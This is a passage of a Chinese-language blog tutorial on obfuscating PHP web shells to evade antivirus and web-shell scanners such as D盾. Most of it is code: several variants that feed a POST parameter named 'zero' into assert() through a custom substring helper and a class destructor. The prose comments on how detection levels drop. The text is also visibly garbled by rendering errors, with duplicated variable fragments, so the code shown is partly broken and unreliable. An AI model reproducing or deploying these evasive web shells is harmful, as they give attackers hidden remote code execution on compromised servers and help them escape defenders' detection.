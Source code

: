     $result .= s t r i n g \[ string\[ string\[start\];  
    }  
    return $result;  
    }

然后把函数替换

-   <?php

$b = ‘assert(xyz@’;  
c = m y s u b s t r ( c = mysubstr( c\=mysubstr(b,0,6);  
c ( c( c(\_POST\[‘zero’\]);  
function mysubstr($string, $start = 0, $length = null) {  
$result = ‘’;  
s t r L e n g t h = s t r l e n ( strLength = strlen( strLength\=strlen(string);  
if ($length === null) {  
$length = $strLength;  
}  
$length = (int) $length;  
$start = s t a r t < 0 ? ( start < 0 ? ( start<0?(strLength + s t a r t ) : ( start) : ( start):(start);  
$end = l e n g t h < 0 ? ( length < 0 ? ( length<0?(strLength + $length) : $start + l e n g t h ; i f ( length; if ( length;if(start > s t r L e n g t h ∣ ∣ ( strLength || ( strLength∣∣(end - $start) === 0) {  
return $result;  
}  
for (; $start < $end; $start ++) {  
$result .= s t r i n g \[ string\[ string\[start\];  
}  
return $result;  
}  
?>

再拿去杀![在这里插入图片描述](https://img-blog.csdnimg.cn/7e0fff0ee9bb42baaa85bf41de26fbbc.png)  
结论很清楚了

再来D盾杀一下![在这里插入图片描述](https://img-blog.csdnimg.cn/60d7ebeb5e284caaaa5d315ba32e4d24.png)  
不错 报2级了 这就是沙盒型查杀和正则类查杀的明显区别 怎么过呢 用构造方法即可

-   <?php

class pure  
{  
public $a = ‘’;  
function \_\_destruct(){

```
assert("$this->a");
```

}  
}  
$b = new pure;  
$b->a = P O S T \[ ′ z e r o ′ \] ; f u n c t i o n m y s u b s t r ( \_POST\['zero'\]; function mysubstr( POST\[′zero′\];functionmysubstr(string, $start = 0, $length = null) {  
$result = ‘’;  
s t r L e n g t h = s t r l e n ( strLength = strlen( strLength\=strlen(string);  
if ($length === null) {  
$length = $strLength;  
}  
$length = (int) $length;  
$start = s t a r t < 0 ? ( start < 0 ? ( start<0?(strLength + s t a r t ) : ( start) : ( start):(start);  
$end = l e n g t h < 0 ? ( length < 0 ? ( length<0?(strLength + $length) : $start + l e n g t h ; i f ( length; if ( length;if(start > s t r L e n g t h ∣ ∣ ( strLength || ( strLength∣∣(end - $start) === 0) {  
return $result;  
}  